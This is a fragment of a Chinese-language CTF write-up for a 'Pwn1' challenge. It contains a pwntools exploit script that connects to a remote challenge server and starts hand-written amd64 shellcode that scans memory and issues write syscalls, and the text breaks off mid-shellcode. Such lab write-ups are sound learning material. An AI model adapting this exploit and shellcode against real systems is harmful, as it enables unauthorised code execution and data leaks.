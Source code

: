 # PWN

## Pwn1

这个题就是直接执行一段写入的shellcode，所以构造好shellcode就好了

```python
# -*- coding: UTF-8 -*-

from pwn import *

from LibcSearcher import *

context.arch = 'amd64'

context.log_level = 'debug'

local_file  = './escape_shellcode'

#libc = ELF('/home/yjc/Desktop/Libc/U16/libc-2.23-32.so')

select = 1

if select == 0:

p = process(local_file)

libc = ELF('/glibc/x64/2.23/lib/libc-2.23.so')

#gdb.attach(p)

else:

p = remote('39.107.124.203',21006)

libc = ELF('/home/yjc/Desktop/Libc/U16/libc-2.23-64.so')

#libc = ELF(remote_libc)

elf = ELF(local_file)

pop_rdi = 0x00000000000015f3

pop_rbp = 0x0000000000001273

shellcode = """

mov rsi, [rip - 0x2a9]

sub rsi, 0x4000

mov rdi, 1

mov rdx, 0x400

Loop1:

sub rsi, 0x400

mov rax, 1

syscall
```